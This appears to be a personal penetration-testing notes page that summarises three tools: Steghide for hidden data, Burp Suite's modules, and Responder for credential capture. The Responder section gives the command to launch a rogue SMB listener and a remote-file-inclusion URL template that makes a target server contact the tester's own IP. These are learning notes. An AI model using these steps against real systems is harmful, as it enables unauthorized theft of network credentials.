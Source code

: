 # Tools

## <mark style="color:green;">Steghide</mark>

Stenography Program

* Install

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt-get install steghide
```
{% endcode %}

***

* Shows embedded information got from a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
steghide info $filename
```
{% endcode %}

***

* Extract embedded data from a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
steghide extract -sf $filename #Get info from stego file
```
{% endcode %}



## <mark style="color:green;">Burp Suite</mark>

### **Characteristics**

* Digital plattform tha collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.
  * _Foxy Proxy:_ Browser Extension for using proxy on Burp
  * The standart IP for connection with Burp is 127.0.0.1 on port 8080
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.



## <mark style="color:green;">Responder</mark>

Help in passive obtention of credentials by mounting a SMB server in web

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$value=//$myip/somefile
```
{% endcode %}

***

